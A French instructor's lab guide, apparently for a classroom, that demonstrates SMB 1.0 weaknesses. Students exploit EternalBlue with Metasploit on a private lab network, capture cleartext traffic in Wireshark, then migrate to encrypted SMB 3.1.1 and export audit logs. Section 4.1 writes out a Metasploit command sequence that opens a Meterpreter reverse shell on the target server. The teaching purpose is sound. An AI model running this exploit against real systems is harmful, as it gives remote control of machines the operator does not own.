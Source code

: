# **Démonstration de failles de sécurité sur SMB 1.0 avec exploitation via Metasploit et comparaison avec SMB 3.1.1**

---

# **1. Objectifs pédagogiques**

Dans cette démonstration, vos étudiants vont :

- Comprendre les failles de sécurité associées à SMB 1.0.
- Simuler une attaque en exploitant la vulnérabilité EternalBlue (CVE-2017-0144) avec Metasploit.
- Comparer la sécurité offerte par SMB 3.1.1, qui inclut des mécanismes de chiffrement modernes.
- Utiliser des outils d'analyse réseau comme Wireshark ou Microsoft Message Analyzer pour capturer et analyser le trafic réseau SMB (SMB 1.0 non chiffré vs SMB 3.1.1 chiffré).

---

# **2. Configuration requise**

#### **Machines utilisées**

| Machine        | Rôle                       | Système d'exploitation | IP Statique     | Nom d’hôte      |
| -------------- | -------------------------- | ---------------------- | --------------- | --------------- |
| Windows Server | Contrôleur de domaine, SMB  | Windows Server 2016/2019| 192.168.1.10    | SERVER01        |
| Windows 10     | Client du domaine           | Windows 10 Pro         | 192.168.1.20    | CLIENT01        |
| Kali Linux     | Test d'attaque Metasploit   | Kali Linux             | 192.168.1.30    | KALI            |

---

# **3. Schéma réseau ASCII**

```
                                +-------------------------+
                                |      Routeur            |
                                |    Passerelle: 192.168.1.1|
                                +-------------------------+
                                          |
                                          |
                              +-----------+------------+
                              |          Réseau Local            |
                              |         (192.168.1.0/24)         |
                              +-----------+------------+
                                          |
              +-------------------+       +-------------------+      +-------------------+
              |  Windows Server    |       |  Windows 10       |      |  Kali Linux       |
              |   (AD & SMB)       |       |   (Client)        |      |  (Metasploit)     |
              |   IP: 192.168.1.10 |       |   IP: 192.168.1.20|      |   IP: 192.168.1.30|
              +-------------------+       +-------------------+      +-------------------+
              |  Domaine: cafe.local       |  Domaine: cafe.local     |   Test d'attaque  |
              |  SMB 1.0 & 3.x             |  DNS: 192.168.1.10       |  (Metasploit)     |
              +-------------------+       +-------------------+      +-------------------+
```

---

# **4. Étapes détaillées**

#### **4.1. Activation et simulation d'une attaque SMB 1.0**

1. **Activer SMB 1.0 sur le serveur Windows :**

   ```powershell
   # Activer SMB 1.0 pour la démonstration
   Set-SmbServerConfiguration –EnableSMB1Protocol $true
   ```

2. **Simulation d'une attaque avec Metasploit (exploitation EternalBlue) :**

   Sur **Kali Linux**, lancez Metasploit pour exploiter la vulnérabilité EternalBlue :

   ```bash
   msfconsole
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST 192.168.1.10  # IP du serveur Windows
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST 192.168.1.30  # IP de Kali Linux
   exploit
   ```

3. **Montrer les résultats aux étudiants :**
   Après exploitation, Metasploit vous donne accès à une session **Meterpreter** sur la machine cible. Montrez comment un attaquant peut prendre le contrôle de la machine cible en raison de l'utilisation de SMB 1.0.

---

#### **4.2. Capture et analyse du trafic SMB 1.0 avec Wireshark**

1. **Lancer Wireshark** sur Kali Linux ou une autre machine pour capturer le trafic réseau entre la machine Windows 10 et le serveur Windows avec SMB 1.0 activé.

2. **Capturer le trafic SMB 1.0** pendant un transfert de fichier entre les deux machines via un partage SMB.

3. **Analyser le trafic capturé** : Montrez que le contenu des fichiers est visible en clair, car SMB 1.0 ne chiffre pas les données.

   **Étapes détaillées pour la capture et analyse :**
   
   - **Lancer Wireshark** : Tapez `wireshark` dans le terminal de Kali pour lancer l'application.
   - **Sélectionner l'interface réseau** : Choisissez l'interface appropriée (généralement `eth0` pour Ethernet) et commencez la capture en cliquant sur le bouton vert **"Start"**.
   - **Effectuer un transfert de fichier** depuis le client Windows 10 vers le serveur Windows avec un dossier partagé SMB 1.0 (`\\192.168.1.10\SharedFolder`).
   - **Filtrer les paquets SMB** : Dans Wireshark, tapez `smb` dans la barre de filtre et appuyez sur Entrée.
   - **Analyser les paquets SMB Write** : Recherchez les paquets contenant les données du fichier transféré. Vous verrez que les données sont envoyées en clair.

---

#### **4.3. Passage à SMB 3.1.1 et démonstration de la sécurité**

1. **Désactiver SMB 1.0 et activer SMB 3.1.1** sur le serveur Windows :

   ```powershell
   # Désactiver SMB 1.0 et activer SMB 3.x avec chiffrement
   Set-SmbServerConfiguration –EnableSMB1Protocol $false
   Set-SmbServerConfiguration –EnableSMB2Protocol $true
   Set-SmbServerConfiguration –EncryptData $true
   ```

2. **Répéter le transfert de fichier** avec SMB 3.1.1 activé et capturer à nouveau le trafic avec Wireshark ou **Microsoft Message Analyzer**.

3. **Analyser le trafic capturé** : Montrez que les données sont maintenant chiffrées et que les informations sensibles ne peuvent plus être interceptées.

---

# **5. Export et analyse des journaux d’audit**

1. **Activer l'audit des accès SMB :**

   ```powershell
   Set-SmbServerConfiguration –AuditSmb1Access $true
   ```

2. **Afficher les événements d’audit générés :**

   ```powershell
   Get-WinEvent -LogName Microsoft-Windows-SMBServer/Audit
   ```

3. **Exporter les événements d’audit vers un fichier CSV :**

   ```powershell
   $events = Get-WinEvent -LogName Microsoft-Windows-SMBServer/Audit
   $events | Export-Csv -Path "C:\AuditSMB.csv" -NoTypeInformation
   ```

---

# **6. Comparaison SMB 1.0 vs SMB 3.1.1**

| Fonctionnalité          | SMB 1.0                     | SMB 3.1.1                   |
| ----------------------- | --------------------------- | --------------------------- |
| Chiffrement              | Aucun                       | AES-128-GCM / AES-128-CCM    |
| Vulnérabilité EternalBlue| Oui                         | Non                         |
| Intégrité des données    | Non                         | Oui (Pré-authentification)   |
| Performance              | Faible                      | Améliorée                    |
| Risques de sécurité      | Élevés                      | Réduits                      |

---

# **7. Conclusion**

Cette démonstration permet de :
- Montrer les risques d'utiliser SMB 1.0, notamment via l'exploitation de la vulnérabilité EternalBlue.
- Mettre en évidence l'importance de désactiver SMB 1.0 dans les environnements modernes.
- Enseigner la migration vers SMB 3.1.1 pour bénéficier du chiffrement et d'autres améliorations en matière de sécurité.
- Utiliser des outils comme **Wireshark** et **Metasploit** pour analyser le comportement des protocoles réseau.

